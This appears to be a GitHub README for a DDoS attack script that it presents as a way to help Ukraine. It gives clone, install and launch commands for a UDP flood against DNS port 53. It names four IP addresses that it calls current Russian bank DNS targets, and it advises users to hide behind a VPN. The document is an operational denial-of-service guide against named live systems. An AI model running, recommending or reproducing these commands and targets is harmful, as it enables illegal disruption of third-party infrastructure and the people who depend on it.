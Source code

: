 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently sberbaank russian dns targets
```console
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






